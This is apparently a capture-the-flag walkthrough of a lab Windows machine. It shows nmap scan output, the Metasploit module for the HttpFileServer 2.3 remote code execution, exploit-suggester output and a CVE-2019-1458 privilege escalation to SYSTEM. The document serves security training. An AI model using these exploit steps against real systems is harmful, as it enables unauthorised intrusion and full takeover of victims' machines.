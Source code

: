 # Solution

Usual nmap scan on the machine:
```
>nmap -sC -sV -oN nmap-initial 10.10.10.8
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-29 12:32 CET
Nmap scan report for 10.10.10.8
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The service on port 80 is a HTTP File Server used to send and receive files through a web interface.  
HFS version 2.3 is vulnerable to remote code execution.  
We select the correct metasploit module:
```
use windows/http/rejetto_hfs_exec
```

We set the options and target and we run the exploit. In this way we get a meterpreter shell.  
We check under what user we're running the shell:
```
> getuid
OPTIMUM\kostas
```

The user flag is in the same directory. Now we are supposed to escalate the privileges to root in order to get the root flag.

We run a meterpreter post module to scan for possible vulnerabilities in the system.
```
>meterpreter > run post/multi/recon/local_exploit_suggester                                                                                                                                                                                 
                                                                                                                                                                                                                                           
[*] 10.10.10.8 - Collecting local exploits for x64/windows...                                                                                                                                                                              
[*] 10.10.10.8 - 20 exploit checks are being tried...                                                                                                                                                                                      
[+] 10.10.10.8 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.                                                                                                                                     
[+] 10.10.10.8 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.                         
[+] 10.10.10.8 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
```

We can see that the machine may be vulnerable to some attacks.  
We try the exploit for cve_2019_1458.
```
use exploit/windows/local/cve_2019_1458_wizardopium
```
We then set the options and run it. We manage to get SYSTEM privileges.  
We can now find the flag inside of root.txt in the Desktop of the Administrator.
